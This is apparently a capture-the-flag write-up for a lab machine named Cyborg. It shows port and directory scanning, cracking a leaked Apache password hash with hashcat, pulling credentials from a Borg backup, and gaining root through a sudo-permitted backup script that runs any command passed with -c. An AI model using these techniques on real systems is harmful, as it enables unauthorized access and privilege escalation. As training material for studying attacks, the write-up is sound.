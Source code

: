 # Cyborg

## Enumeration

### I started by scan the ports to answer to the first question

I used this nmap command : nmap -A -p- -T4 _IP_
  - _-A or -sV : Enables version detection, as discussed above_
  - _-p- : to scan every 65535 port_
  - _-T<0-5>: Set timing template (higher is faster)_

```bash
└─$ nmap -A -p- -T4 10.10.252.51
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-04 13:02 BST
Nmap scan report for 10.10.252.51
Host is up (0.048s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 db:b2:70:f3:07:ac:32:00:3f:81:b8:d0:3a:89:f3:65 (RSA)
|   256 68:e6:85:2f:69:65:5b:e7:c6:31:2c:8e:41:67:d7:ba (ECDSA)
|_  256 56:2c:79:92:ca:23:c3:91:49:35:fa:dd:69:7c:ca:ab (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.48 seconds
```
### I've found that 2 ports are opened 80 (http) and 22 (ssh),  with this I can answer the question 2 and 3

### After I used feroxbuster which is a very powerfull web fuzzer

```bash
└─$ feroxbuster --url http://10.10.252.51 --wordlist  /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-big.txt -t 200

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.10.1
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.10.252.51
 🚀  Threads               │ 200
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-big.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.10.1
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET        9l       31w      274c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
403      GET        9l       28w      277c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET       15l       74w     6143c http://10.10.252.51/icons/ubuntu-logo.png
301      GET        9l       28w      312c http://10.10.252.51/admin => http://10.10.252.51/admin/
200      GET      375l      968w    11321c http://10.10.252.51/
301      GET        9l       28w      310c http://10.10.252.51/etc => http://10.10.252.51/etc/
200      GET        6l       27w      258c http://10.10.252.51/etc/squid/squid.conf
[#>------------------] - 7m    193242/2370492 76m     found:5       errors:23897  
🚨 Caught ctrl+c 🚨 saving scan state to ferox-http_10_10_252_51-1720095021.state ...
[#>------------------] - 7m    193301/2370492 76m     found:5       errors:23923  
[#>------------------] - 7m     99544/1185240 241/s   http://10.10.252.51/ 
[#>------------------] - 7m     93730/1185240 227/s   http://10.10.252.51/admin/ 
[####################] - 2s   1185240/1185240 570925/s http://10.10.252.51/etc/ => Directory listing
[####################] - 2s   1185240/1185240 741702/s http://10.10.252.51/etc/squid/ => Directory listing
```
### I've look around /etc/squid and I've found the passwd file where the music_archive's password hash is written

## Exploitation

### music_archive:$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.

```bash
└─$ hashcat -m 1600 -a 0 hash /usr/share/wordlists/rockyou.txt

$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.:*********           
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 1600 (Apache $apr1$ MD5, md5apr1, MD5 (APR))
Hash.Target......: $apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.
Time.Started.....: Thu Jul  4 13:34:59 2024 (1 sec)
Time.Estimated...: Thu Jul  4 13:35:00 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:    38096 H/s (6.59ms) @ Accel:128 Loops:250 Thr:1 Vec:16
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 39936/14344385 (0.28%)
Rejected.........: 0/39936 (0.00%)
Restore.Point....: 38912/14344385 (0.27%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:750-1000
Candidate.Engine.: Device Generator
Candidates.#1....: treetree -> prospect
Hardware.Mon.#1..: Temp: 84c Util: 97%

Started: Thu Jul  4 13:34:49 2024
Stopped: Thu Jul  4 13:35:01 2024
```
### On the /admin page, I could download archive.tar on the "Archive" tab and I've untar it

### In the README I've found the Borg documentation link : https://borgbackup.readthedocs.io/en/stable/, I've found a lot of command very usefull.

```bash
└─$ borg list home/field/dev/final_archive 

Enter passphrase for key /home/ciikorrr/CTF/Cyborg/home/field/dev/final_archive: 
music_archive                        Tue, 2020-12-29 14:00:38 [f789ddb6b0ec108d130d16adebf5713c29faf19c44cad5e1eeb8ba37277b1c82]

└─$ borg extract home/field/dev/final_archive::music_archive

└─$ cd home/alex/Documents

└─$ cat note.txt   
Wow I'm awful at remembering Passwords so I've taken my Friends advice and noting them down!

alex:**********
```
### After have found the alex credentials, I'm connected on his ssh session

```ssh alex@IP```

## User FLAG

```bash
alex@ubuntu:~$ cat user.txt 
flag{**********************}
```

## Privilege Escalation

### I started with a basic sudo -l to enumerate all commands authorised by alex as another user, I've found that alex can execute a script as any user (so in root too)

```bash
alex@ubuntu:~$ sudo -l
Matching Defaults entries for alex on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alex may run the following commands on ubuntu:
    (ALL : ALL) NOPASSWD: /etc/mp3backups/backup.sh
```

### By luck, the backup.sh file is readable so I analyzed it
```bash
alex@ubuntu:~$ cat /etc/mp3backups/backup.sh
#!/bin/bash

sudo find / -name "*.mp3" | sudo tee /etc/mp3backups/backed_up_files.txt


input="/etc/mp3backups/backed_up_files.txt"
#while IFS= read -r line
#do
  #a="/etc/mp3backups/backed_up_files.txt"
#  b=$(basename $input)
  #echo
#  echo "$line"
#done < "$input"

while getopts c: flag
do
	case "${flag}" in 
		c) command=${OPTARG};;
	esac
done



backup_files="/home/alex/Music/song1.mp3 /home/alex/Music/song2.mp3 /home/alex/Music/song3.mp3 /home/alex/Music/song4.mp3 /home/alex/Music/song5.mp3 /home/alex/Music/song6.mp3 /home/alex/Music/song7.mp3 /home/alex/Music/song8.mp3 /home/alex/Music/song9.mp3 /home/alex/Music/song10.mp3 /home/alex/Music/song11.mp3 /home/alex/Music/song12.mp3"

# Where to backup to.
dest="/etc/mp3backups/"

# Create archive filename.
hostname=$(hostname -s)
archive_file="$hostname-scheduled.tgz"

# Print start status message.
echo "Backing up $backup_files to $dest/$archive_file"

echo

# Backup the files using tar.
tar czf $dest/$archive_file $backup_files

# Print end status message.
echo
echo "Backup finished"

cmd=$($command)
echo $cmd
```
### 2 things are interesting in the script

```bash
while getopts c: flag
do
	case "${flag}" in 
		c) command=${OPTARG};;
	esac
done
```
```bash
cmd=$($command)
echo $cmd
```
### If I specify a -c option to the script, it will run the command that I want

## Root FLAG

```bash
alex@ubuntu:~$ sudo /etc/mp3backups/backup.sh -c "cat /root/root.txt"

flag{***************************}
```



